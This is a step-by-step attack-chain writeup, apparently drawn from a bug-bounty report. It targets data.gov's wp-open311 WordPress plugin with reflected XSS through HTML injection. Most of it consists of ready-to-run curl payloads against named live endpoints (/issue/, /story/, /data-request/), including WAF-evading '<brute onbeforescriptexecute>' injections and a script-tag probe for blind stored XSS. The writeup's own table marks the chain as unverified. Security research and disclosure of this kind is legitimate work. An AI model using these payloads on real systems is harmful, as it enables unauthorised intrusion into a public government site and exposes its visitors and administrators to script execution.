

# Reflected XSS via HTML Injection and Akamai WAF Bypass in WordPress Forms Plugin on data.gov

Multi-stage attack chain demonstrating exploitation of insufficient input sanitization in the wp-open311 WordPress plugin on data.gov, allowing HTML injection via the media_url parameter and escalation to reflected XSS through Akamai WAF evasion using obscure HTML tags and events.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Google-Search]]
- [[tools/Mozilla-Firefox]]

### Target Environment

- Web platform with WordPress and wp-open311 plugin
- Akamai WAF protecting endpoints
- Access to public-facing forms on data.gov

### Initial Access Requirements

- No credentials required
- Public internet access
- Browser supporting JavaScript execution (e.g., Firefox)

## Detailed Attack Procedures

### Step 1: Gather and Explore URLs
procedure: [[procedures/Gather-and-Explore-URLs-from-Google-Search]]

**Objective**: Identify potential injection points by scraping and manually testing URLs from the data.gov domain.

**Instructions**: Use [[commands/google-search-scrape]] to query for data.gov URLs, then manually explore them in [[tools/Mozilla-Firefox]] for parameter reflections.

```bash
google-search "site:data.gov" > urls.txt
```

Review urls.txt and test endpoints like /issue/ for input reflections.

**Expected Output**: List of URLs with form parameters.

**Success Indicators**:
- URLs collected
- Reflections identified in parameters like media_url

### Step 2: Inject HTML via media_url on /issue/ Endpoint
procedure: [[procedures/Inject-HTML-via-media_url-on-issue-Endpoint]]

**Objective**: Confirm HTML injection by closing quotes and inserting an SVG element.

**Instructions**: Submit a payload to https://www.data.gov/issue/ using [[commands/curl-html-inject]]:

```bash
curl -X POST 'https://www.data.gov/issue/' -d 'media_url=catalog.data.gov/dataset/consumer-complaint-database"%3E%3Csvg height="100" width="100"> <circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" fill="red" /> </svg>'
```

Observe the response in Firefox to see the rendered red circle.

**Expected Output**: SVG renders as a red circle, confirming injection.

**Success Indicators**:
- Visual SVG element appears
- Quote closure bypasses context

### Step 3: Bypass Akamai WAF for Reflected XSS
procedure: [[procedures/Bypass-Akamai-WAF-for-Reflected-XSS]]

**Objective**: Escalate HTML injection to JavaScript execution by evading WAF filters.

**Instructions**: Craft and submit an XSS payload using [[commands/curl-xss-bypass]] on the media_url parameter:

```bash
curl -X POST 'https://www.data.gov/issue/' -d 'media_url=catalog.data.gov/dataset/consumer-complaint-database"%3E%3C/div%3E%3C/div%3E%3Cbrute onbeforescriptexecute=confirm(document.domain)>'
```

Test in Firefox; the confirm dialog should trigger.

**Expected Output**: JavaScript alert or confirm dialog executes.

**Success Indicators**:
- No WAF block
- JS execution in browser

### Step 4: Test Similar Vulnerability on /story/ Endpoint
procedure: [[procedures/Test-Similar-Vulnerability-on-story-Endpoint]]

**Objective**: Verify the same injection and XSS on the /story/ endpoint.

**Instructions**: Repeat the XSS payload on https://www.data.gov/story using [[commands/curl-xss-story]]:

```bash
curl -X POST 'https://www.data.gov/story' -d 'media_url=catalog.data.gov/dataset/consumer-complaint-database"%3E%3C/div%3E%3C/div%3E%3Cbrute onbeforescriptexecute=confirm(document.domain)>'
```

Verify execution in Firefox.

**Expected Output**: Confirm dialog on /story/.

**Success Indicators**:
- Payload reflects and executes
- Consistent with /issue/

### Step 5: Test Similar Vulnerability on /data-request/ Endpoint
procedure: [[procedures/Test-Similar-Vulnerability-on-data-request-Endpoint]]

**Objective**: Exploit agency_name parameter on /data-request/ with WAF evasion.

**Instructions**: Submit payload using [[commands/curl-xss-data-request]]:

```bash
curl -X POST 'https://www.data.gov/data-request/' -d 'agency_name=48027"%3E%3C/div%3E%3C/div%3E%3C/div%3E%3C/div%3E%3Cbrute onbeforescriptexecute=confirm`1`>'
```

Use backticks in the event handler; test in Firefox.

**Expected Output**: JS execution via confirm(1).

**Success Indicators**:
- Backtick evasion works
- Dialog triggers

### Step 6: Assess Blind Stored XSS Potential
procedure: [[procedures/Assess-Blind-Stored-XSS-Potential]]

**Objective**: Evaluate risk of stored XSS in admin interfaces.

**Instructions**: Submit payload to an issue form using [[commands/curl-stored-xss-test]]:

```bash
curl -X POST 'https://www.data.gov/issue/request-id/574691' -d 'media_url=catalog.data.gov/dataset/consumer-complaint-database"%3E%3Cscript>confirm(document.domain)</script>'
```

Monitor for admin reflection (not directly verifiable without access).

**Expected Output**: Payload stored; potential JS if viewed by admins.

**Success Indicators**:
- Submission accepted
- Risk noted for admin views

## Attack Chain Summary

### Key Achievements

1. Identified HTML injection in wp-open311 plugin across multiple endpoints.
2. Bypassed Akamai WAF using <brute> tag and onbeforescriptexecute event.
3. Achieved reflected XSS execution in Firefox, with potential for blind stored XSS.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
